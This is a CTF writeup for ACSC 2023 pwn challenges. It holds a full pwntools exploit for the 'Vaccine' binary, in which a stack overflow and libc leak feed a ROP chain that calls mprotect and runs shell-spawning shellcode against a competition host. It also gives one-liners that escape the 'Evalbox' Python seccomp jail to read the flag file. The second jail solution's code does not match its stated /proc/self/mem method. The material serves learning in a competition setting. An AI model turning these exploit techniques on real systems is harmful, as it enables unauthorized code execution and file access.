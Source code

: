 ```yaml
---
title: 「PWN」【ACSC 2023】Writeup WP 复现
authors: [nova]
tags: ['CTF', 'Pwn', 'writeup', 'wp']
---
```


This is an individual competition, but I have already forgot things for Web or Rev, let along Crypto. Meanwhile, we can not solve the hard challenges, so uh-hum, let's just say I'm not participate for the sake of the ranks LOL

<!--truncate-->

## Vaccine

The program uses a `scanf` to receive our input, therefore we have no length limit, and we can just modify *s* to be the same as *s2*.

![image-20230227192106762](https://cdn.ova.moe/img/image-20230227192106762.png)

Then, we'll be able to leak the libc_address and ret2libc by simply doing a stack overflow and changing the return address.

At first, I used a wrong libc version and there's no one_gadgets available, so I used the `mprotect` and shellcode to get the shell, which makes all things complicated.

exp:

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

sh = process(['./vaccine'])
sh = remote('vaccine-2.chal.ctf.acsc.asia', 1337)
elf = ELF('./vaccine')
# libc = ELF('./libc6-i386_2.31-9_amd64.so')  # wrong libc lol
libc = ELF('/home/nova/glibc-all-in-one/libs/2.31-0ubuntu9.9_amd64/libc.so.6')

pop_rdi_ret = 0x401443
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

# gdb.attach(sh, 'b *0x00000000004013D7')
# pause()
payload = b'AAAA' + b'\x00'*108 + b'AAAA\x00'
payload = payload.ljust(0x108, b'\x00')
payload += p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(0x401236)
sh.sendlineafter(b'Give me vaccine: ', payload)
sh.recvuntil(b'castle\n')

libc_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x84420
mprotect = libc_base + libc.sym['mprotect']
read = libc_base + libc.sym['read']
pop_rsi_ret = libc_base + 0x02601f
pop_rdx_r12_ret = libc_base + 0x119211

print(hex(libc_base))
payload = b'AAAA' + b'\x00'*108 + b'AAAA\x00'
payload = payload.ljust(0x108, b'\x00')
payload += p64(pop_rdi_ret) + p64(elf.bss() & (~0xfff)) + p64(pop_rsi_ret) + p64(0x1000) + p64(pop_rdx_r12_ret) + p64(7)*2 + p64(mprotect)
payload += p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_ret) + p64(elf.bss() + 0x50) + p64(pop_rdx_r12_ret) + p64(0x1000)*2 + p64(read) + p64(elf.bss() + 0x50) + p64(0x401236)
sh.sendlineafter(b'Give me vaccine: ', payload)

sh.sendline(asm(shellcraft.sh()))

sh.interactive()
```



## Evalbox

This is a really interesting challenge.

```python
#!/usr/bin/env python3
import seccomp

if __name__ == '__main__':
    f = seccomp.SyscallFilter(defaction=seccomp.ALLOW)
    f.add_rule(seccomp.KILL, 'close')
    f.load()
    eval(input("code: "))
```

It will `eval` anything we input, but it also prohibit all functions calling for `close`

In `Dockerfile`, we know that we should first get the filename of the flag.

At first I though it might be some differences between `seccomp.so` and [seccomp.pyx](https://github.com/seccomp/libseccomp/blob/main/src/python/seccomp.pyx). So I tried to compile this `.pyx` file and try using bindiff between this two files, but I failed :(



But there's actually many ways to bypass this jail.

### solve 1

This exp is in a pure python way.

we can use `os.scandir(os.open(".", 0))` to get all files in `.` directory, and we can use `print(os.open(filename, 'r').read())` to get the content of the file.

let's just shorten it with only one line.

```python
print(os:=__import__('os'), d:=os.scandir(os.open(".", 0)), f:=open(next(filter(lambda x: x.name.startswith("flag"), d))), f.read(), sep='\n\n')
```



### solve2

we can open `/proc/self/mem` and write shellcode on `.text` segment.

```
print(os:=__import__('os'), f:=open('flag-31540753807ba7099ea27997ca43e280.txt', 'r'), f.read())
```

